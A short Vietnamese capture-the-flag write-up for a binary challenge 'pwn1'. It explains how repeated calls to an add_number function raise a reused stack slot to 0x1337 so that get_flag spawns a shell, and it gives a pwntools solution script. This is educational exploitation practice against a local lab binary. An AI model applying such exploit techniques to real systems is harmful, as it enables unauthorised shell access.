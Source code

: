 ## pwn1 
- Bài có 2 options, 1 là hàm add_number, 2 là hàm get_flag.
- Hàm get_flag: 
```c
int get_flag()
{
  int v1; // [rsp+Ch] [rbp-4h]

  if ( v1 == 0x1337 )
    return system("/bin/sh");
  else
    return puts("No");
}
```
- Hàm get_flag check flag tại vị trí stack là rbp-4
- Hàm add_number dùng ida chúng ta không thể decompile được thế nhưng chúng ta hãy nhớ tới vị trí để lấy được flag là rbp-4 : 

```asm 
public add_number
add_number proc near

var_4= dword ptr -4

; __unwind {
endbr64
push    rbp
mov     rbp, rsp
nop
nop
nop
add     [rbp+var_4], 1
nop
pop     rbp
retn
; } // starts at 1189
add_number endp

```

- Vậy là hàm add sẽ cộng thêm 1 tại vị trí rbp-4
- Chúng ta cần cộng 0x1337 lần để lấy được shell và win.

- script python: 

```python=
from pwn import *
p = process("./pwn1")

for i in range(0x1337):
    p.sendline(b"1")

p.sendline(b"2")
p.interactive()

```